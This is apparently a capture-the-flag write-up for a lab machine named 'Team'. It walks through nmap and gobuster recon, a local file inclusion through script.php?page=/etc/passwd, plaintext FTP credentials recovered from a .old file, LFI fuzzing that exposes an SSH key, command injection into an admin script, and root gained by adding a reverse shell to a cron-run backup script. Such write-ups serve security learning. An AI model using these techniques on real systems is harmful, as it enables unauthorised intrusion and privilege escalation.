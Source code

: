 # Recon

## Nmap 


```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Team
|_http-server-header: Apache/2.4.29 (Ubuntu)

```

## Gobuster

```
gobuster dir -u http://team.thm -w ~/tools/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
gobuster vhost -u http://team.thm -w ~/tools/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

### team.thm

```
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/] 
```

### dev.team.thm

```
http://dev.team.thm/script.php?page=teamshare.php
```


## Nikto

```
nikto -h http://dev.team.thm 
nikto -h http://team.thm 
```

We did not found anything with nikto in both subdomains/domains.


# Web

- We found "Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!" in the title
- We add the team.thm in our hosts and perform a vhost and directory bruteforce
- We found dev.team.thm with the gobuster
- team.thm seems like it does not have anything, it seems like it is only a frontend page with a template
- dev.team.thm in the other hand has file inclusion vulnerability
- http://dev.team.thm/script.php?page=/etc/passwd lets us see the contents of any file in the machine
- We have the following users:
```
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash gyles:x:1001:1001::/home/gyles:/bin/bash ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
```
- I tried to see if I can perform a log poisoning but we didnt have permissions to read those files.

- we have an ftpuser that may be used in the ftp service(we can try to bruteforce him)
- I tried use the ftpuser without password but it gives login failed
- I tried to bruteforce the ftpuser using rockyou but does not work

- Since i cant get nothing from the vulnerability i found i need to start searching for something in te endpoints of team.thm domain.
- I started enumerating the endpoints we got in team.thm
```
gobuster dir -u http://team.thm/scripts -w ~/tools/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  --extensions .txt,.py,.php,.sh
gobuster dir -u http://team.thm/assets -w ~/tools/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
gobuster dir -u http://team.thm/images -w ~/tools/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```
/css                  (Status: 301) [Size: 309] [--> http://team.thm/assets/css/]
/js                   (Status: 301) [Size: 308] [--> http://team.thm/assets/js/] 
/fonts                (Status: 301) [Size: 311] [--> http://team.thm/assets/fonts/]
/thumbs               (Status: 301) [Size: 312] [--> http://team.thm/images/thumbs/]
/script.txt           (Status: 200) [Size: 597] //We found a weird file in /scripts/
```

- With the file scripts.txt that we found it gives us some information about how the ftp is configured but it leads nowhere since we cant change the file to execute. 
- But we have an information that seems weird:
``` 
 Note to self had to change the extension of the old "script" in this folder, as it has creds in
```
- Searching in google for old extension we found that is normal that the systems create a .old for older files after the default file extension
- In this case it seems like we may have a scripts.old
- We download a file that its the same for scripts.txt but with the username and password.
- username and password for the ftp: ftpuser : T3@m$h@r3
- we have a /workshare directory and inside we have another file called New_site.txt
```
Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.
```
- Using ffuf we get to the configuration that gyles was talking
- fuf -w ~/tools/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php?page=FUZZ 1>fuzzing.txt
- filtering for ssh we found an sshd_config file that has the dale openssh private key
- We can that we can inject shell code in the script that we can interact with: /home/gyles/admin_checks
- We notice that we can inject code in two inputs, name and error, but only error is directly executed.
- So we can do /bin/bash and then create a interactive shell: python3 -c "import pty; pty.spawn('/bin/bash')"
- We get a shell as gyles
- Run linpeas:
 - /usr/local/bin/main_backup.sh                                                                                                                                                     
 - /opt/admin_stuff
- Looking at the admin_stuff we have a script that executes main_backup.sh every minute as root
- Looking at the permissions for the main_backups.sh we notice that members from the admin group can edit this file, and gyles is one of them
- So we add a python reverse shell and start netcat. After sometime we got a reverse shell as root, GG!

